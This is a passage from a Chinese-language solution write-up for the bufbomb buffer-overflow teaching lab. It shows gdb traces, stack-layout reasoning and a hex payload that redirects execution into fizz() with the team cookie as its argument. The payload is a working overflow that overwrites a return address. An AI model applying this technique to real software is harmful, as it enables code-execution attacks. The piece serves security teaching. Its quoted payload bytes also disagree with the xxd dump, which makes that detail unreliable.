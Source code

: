 	此时观察一下 `$esp`

	```
	Breakpoint 1, 0x08048dc0 in fizz ()
	(gdb) x/x $esp
	0xffffba40:     0x00000000
	(gdb) si
	0x08048dc1 in fizz ()
	(gdb) x/x $esp
	0xffffba3c:     0xffffba38
	(gdb) si
	0x08048dc3 in fizz ()
	(gdb) x/x $esp
	0xffffba3c:     0xffffba38
	(gdb) x/x $ebp
	0xffffba3c:     0xffffba38
	```

	可以看出在执行完 `0x8048dc1` 处的 `mov    %esp,%ebp` 后, %ebp 其实指向了上一轮我们 return address 的地址, 即 `$saved_ebp+4`

	再向下可以看到 `0x8048de2` 处进行的比较是 `cmp    0x804a1cc,%ebx`, 即 `if (val == cookie)`, 而 `%ebp` 来自 `0x8(%ebp)`, 所以为了实现实验目的, 输出 `Fizz!: You called fizz(0x5fb97de9)`, 我们就要在 `$saved_ebp+4+8` 的地方写入我们小组的 `Cookie`

	> 00 00 00 00 00 00 00 00 00 00 00 00 58 ba ff ff c0 8d 04 08 00 00 00 00 e9 7d b9 5f

	也就是在刚才的 `test_Sparkler` 后面加上 `00 00 00 00 e9 7d b9 5f`

	最后, 我们测试一下实验结果

	```
	$ xxd exploit-raw.txt
	00000000: 0000 0000 0000 0000 0000 0000 38ba ffff  ............8...
	00000010: c08d 0408 0000 0000 e97d b95f 0a         .........}._.

	$ ./bufbomb -t SA18225263+SA18225419+SA18225037 < exploit-raw.txt
	Team: SA18225263+SA18225419+SA18225037
	Cookie: 0x5fb97de9
	Type string:Fizz!: You called fizz(0x5fb97de9)
	NICE JOB!
	Sent validation information to grading server
	```

	通过测试, 结果正确。综上, 第2题的 `exploit-raw.txt` 为

	```
	$ xxd exploit-raw.txt
	00000000: 0000 0000 0000 0000 0000 0000 38ba ffff  ............8...
	00000010: c08d 0408 0000 0000 e97d b95f 0a         .........}._.
	```

	<br>

*	Level2: Firecracker

	本题要求我们将返回地址写成 `buf` 的起始地址 `0xffffba2c`

	```
	Breakpoint 1, 0x08048fe9 in getbuf ()
	(gdb) x/x $ebp-0x0c
	0xffffba2c:     0x00000000
	```
